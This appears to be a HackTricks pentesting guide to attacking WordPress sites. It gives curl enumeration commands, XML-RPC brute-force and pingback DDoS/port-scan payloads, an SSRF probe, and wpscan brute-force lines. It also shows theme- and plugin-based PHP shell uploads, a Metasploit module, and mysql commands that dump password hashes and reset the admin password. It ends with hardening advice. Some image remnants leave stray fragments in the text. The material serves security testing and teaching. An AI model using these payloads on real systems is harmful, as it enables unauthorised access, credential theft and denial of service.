

# Wordpress


Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


<figure><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_term=trickest\&utm_content=wordpress) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:



## Basic Information

* **Uploaded** files go to: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
*   **Themes files can be found in /wp-content/themes/,** so if you change some php of the theme to get RCE you probably will use that path. For example: Using **theme twentytwelve** you can **access** the **404.php** file in: [**/wp-content/themes/twentytwelve/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

    * **Another useful url could be:** [**/wp-content/themes/default/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)


* In **wp-config.php** you can find the root password of the database.
* Default login paths to check: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

### **Main WordPress Files**

* `index.php`
* `license.txt` contains useful information such as the version WordPress installed.
* `wp-activate.php` is used for the email activation process when setting up a new WordPress site.
* Login folders (may be renamed to hide it):
  * `/wp-admin/login.php`
  * `/wp-admin/wp-login.php`
  * `/login.php`
  * `/wp-login.php`
* `xmlrpc.php` is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism. This type of communication has been replaced by the WordPress [REST API](https://developer.wordpress.org/rest-api/reference).
* The `wp-content` folder is the main directory where plugins and themes are stored.
* `wp-content/uploads/` Is the directory where any files uploaded to the platform are stored.
* `wp-includes/` This is the directory where core files are stored, such as certificates, fonts, JavaScript files, and widgets.
* `wp-sitemap.xml` In Wordpress versions 5.5 and greater, Worpress generates a sitemap XML file with all public posts and publicly queryable post types and taxonomies.

**Post exploitation**

* The `wp-config.php` file contains information required by WordPress to connect to the database such as the database name, database host, username and password, authentication keys and salts, and the database table prefix. This configuration file can also be used to activate DEBUG mode, which can useful in troubleshooting.

### Users Permissions

* **Administrator**
* **Editor**: Publish and manages his and others posts
* **Author**: Publish and manage his own posts
* **Contributor**: Write and manage his posts but cannot publish them
* **Subscriber**: Browser posts and edit their profile

## **Passive Enumeration**

### **Get WordPress version**

Check if you can find the files `/license.txt` or `/readme.html`

Inside the **source code** of the page (example from [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)):

* grep

```bash
curl https://victim.com/ | grep 'content="WordPress'
```

* `meta name`

.png>)

* CSS link files

.png>)

* JavaScript files

.png>)

### Get Plugins


```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```


### Get Themes


```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```


### Extract versions in general


```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```


<figure><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_term=trickest\&utm_content=wordpress) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:



## Active enumeration

### Plugins and Themes

You probably won't be able to find all the Plugins and Themes passible. In order to discover all of them, you will need to **actively Brute Force a list of Plugins and Themes** (hopefully for us there are automated tools that contains this lists).

### Users

* **ID Brute:** You get valid users from a WordPress site by Brute Forcing users IDs:

```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

* **wp-json:** You can also try to get information about the users by querying:

```bash
curl http://blog.example.com/wp-json/wp/v2/users
```

Another `/wp-json/` endpoint that can reveal some information about users is:

```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```

Note that this endpoint only exposes users that have made a post. **Only information about the users that has this feature enable will be provided**.

Also note that **/wp-json/wp/v2/pages** could leak IP addresses.

* **Login username enumeration**: When login in **`/wp-login.php`** the **message** is **different** is the indicated **username exists or not**.

### XML-RPC

If `xml-rpc.php` is active you can perform a credentials brute-force or use it to launch DoS attacks to other resources. (You can automate this process[ using this](https://github.com/relarizky/wpxploit) for example).

To see if it is active try to access to _**/xmlrpc.php**_ and send this request:

**Check**

```markup
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**Credentials Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** or **`metaWeblog.getUsersBlogs`** are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

```markup
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

The message _"Incorrect username or password"_ inside a 200 code response should appear if the credentials aren't valid.

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

Using the correct credentials you can upload a file. In the response the path will appears ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))

```markup
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

Also there is a **faster way** to brute-force credentials using **`system.multicall`** as you can try several credentials on the same request:

<figure><figcaption></figcaption></figure>

**Bypass 2FA**

This method is meant for programs and not for humans, and old, therefore it doesn't support 2FA. So, if you have valid creds but the main entrance is protected by 2FA, **you might be able to abuse xmlrpc.php to login with those creds bypassing 2FA**. Note that you won't be able to perform all the actions you can do through the console, but you might still be able to get to RCE as Ippsec explains it in [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s)

**DDoS or port scanning**

If you can find the method _**pingback.ping**_ inside the list you can make the Wordpress send an arbitrary request to any host/port.\
This can be used to ask **thousands** of Wordpress **sites** to **access** one **location** (so a **DDoS** is caused in that location) or you can use it to make **Wordpress** lo **scan** some internal **network** (you can indicate any port).

```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```



If you get **faultCode** with a value **greater** then **0** (17), it means the port is open.

Take a look to the use of **`system.multicall`** in the previous section to learn how to abuse this method to cause DDoS.

**DDoS**

```markup
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

.png>)

### wp-cron.php DoS

This file usually exists under the root of the Wordpress site: **`/wp-cron.php`**\
When this file is **accessed** a "**heavy**" MySQL **query** is performed, so I could be used by **attackers** to **cause** a **DoS**.\
Also, by default, the `wp-cron.php` is called on every page load (anytime a client requests any Wordpress page), which on high-traffic sites can cause problems (DoS).

It is recommended to disable Wp-Cron and create a real cronjob inside the host that perform the needed actions in a regular interval (without causing issues).

### /wp-json/oembed/1.0/proxy - SSRF

Try to access _https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net_ and the Worpress site may make a request to you.

This is the response when it doesn't work:

.png>)

## SSRF



This tool checks if the **methodName: pingback.ping** and for the path **/wp-json/oembed/1.0/proxy** and if exists, it tries to exploit them.

## Automatic Tools

```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"
```

## Get access by overwriting a bit

More than a real attack this is a curiosity. IN the CTF [https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man) you could flip 1 bit from any wordpress file. So you could flip the position `5389` of the file `/var/www/html/wp-includes/user.php` to NOP the NOT (`!`) operation.

```php
    if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
            return new WP_Error(
```

## **Panel RCE**

**Modifying a php from the theme used (admin credentials needed)**

Appearance → Theme Editor → 404 Template (at the right)

Change the content for a php shell:

.png>)

Search in internet how can you access that updated page. In this case you have to access here: [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

### MSF

You can use:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

to get a session.

## Plugin RCE

### PHP plugin

It may be possible to upload .php files as a plugin.\
Create your php backdoor using for example:

.png>)

Then add a new plugin:

.png>)

Upload plugin and press Install Now:

.png>)

Click on Procced:

.png>)

Probably this won't do anything apparently, but if you go to Media, you will see your shell uploaded:

.png>)

Access it and you will see the URL to execute the reverse shell:

.png>)

### Uploading and activating malicious plugin

This method involves the installation of a malicious plugin known to be vulnerable and can be exploited to obtain a web shell. This process is carried out through the WordPress dashboard as follows:

1. **Plugin Acquisition**: The plugin is obtained from a source like Exploit DB like [**here**](https://www.exploit-db.com/exploits/36374).
2. **Plugin Installation**:
   * Navigate to the WordPress dashboard, then go to `Dashboard > Plugins > Upload Plugin`.
   * Upload the zip file of the downloaded plugin.
3. **Plugin Activation**: Once the plugin is successfully installed, it must be activated through the dashboard.
4. **Exploitation**:
   * With the plugin "reflex-gallery" installed and activated, it can be exploited as it is known to be vulnerable.
   * The Metasploit framework provides an exploit for this vulnerability. By loading the appropriate module and executing specific commands, a meterpreter session can be established, granting unauthorized access to the site.
   * It's noted that this is just one of the many methods to exploit a WordPress site.

The content includes visual aids depicting the steps in the WordPress dashboard for installing and activating the plugin. However, it's important to note that exploiting vulnerabilities in this manner is illegal and unethical without proper authorization. This information should be used responsibly and only in a legal context, such as penetration testing with explicit permission.

**For more detailed steps check:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## From XSS to RCE

* [**WPXStrike**](https://github.com/nowak0x01/WPXStrike): _**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress. For more info check [**this post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). It provides **support for Wordpress Versions 6.X.X, 5.X.X and 4.X.X. and allows to:**
  * _**Privilege Escalation:**_ Creates an user in WordPress.
  * _**(RCE) Custom Plugin (backdoor) Upload:**_ Upload your custom plugin (backdoor) to WordPress.
  * _**(RCE) Built-In Plugin Edit:**_ Edit a Built-In Plugins in WordPress.
  * _**(RCE) Built-In Theme Edit:**_ Edit a Built-In Themes in WordPress.
  * _**(Custom) Custom Exploits:**_ Custom Exploits for Third-Party WordPress Plugins/Themes.

## Post Exploitation

Extract usernames and passwords:


```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```


Change admin password:


```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```


## Wordpress Plugins Pentest

### Attack Surface

Knowing how a Wordpress plugin can expose functionality is key in order to find vulnerabilities on its functionality. You can find how a plugin might expose functionality in the following bullet points and some example of vulnerable plugins in [**this blog post**](https://nowotarski.info/wordpress-nonce-authorization/).

* **`wp_ajax`**&#x20;

One of the ways a plugin can expose functions to uses if via AJAX handlers. These ones could contain logic, authorization, or authentication bugs. Moreover, it's kind of frquelty that these functions are going to base both the authentication and authorization in the existence of a wordpress nonce which **any user authenticated in the Wordpress instance might have** (independently of its role).

These are the functions that can be used to expose a function in a plugin:

```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```

**The use of `nopriv` makes the endpoint accessible by any users (even unathenticated ones).**


Moreover, if the function is just checking the authorization of the user with the function `wp_verify_nonce`, this function is just checking the user is loggedin, it isn't usually checking the role of the user. So low privileged users might have access to high privileged actions.


* **REST API**

It's also possible to expose functions from wordpress registering a rest AP using the `register_rest_route` function:

```php
register_rest_route(
    $this->namespace, '/get/', array(
        'methods' => WP_REST_Server::READABLE,
        'callback' => array($this, 'getData'),
        'permission_callback' => '__return_true'
    )
);
```


The `permission_callback` is a callback to function that checks if a given user is authorized to call the API method.

**If the built-in `__return_true` function is used, it'll simply skip user permissions check.**

* **Direct access to the php file**

Of course, Wordpress uses PHP and files inside plugins are directly accessible from the web. So, in case a plugin is exposing any vulnerable functionality that is triggered just accessing the file, it's going to be exploitable by any user.

## WordPress Protection

### Regular Updates

Make sure WordPress, plugins, and themes are up to date. Also confirm that automated updating is enabled in wp-config.php:

```bash
define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```

Also, **only install trustable WordPress plugins and themes**.

### Security Plugins

* [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
* [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
* [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Other Recommendations**

* Remove default **admin** user
* Use **strong passwords** and **2FA**
* Periodically **review** users **permissions**
* **Limit login attempts** to prevent Brute Force attacks
* Rename **`wp-admin.php`** file and only allow access internally or from certain IP addresses.

<figure><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_term=trickest\&utm_content=wordpress) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:




Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


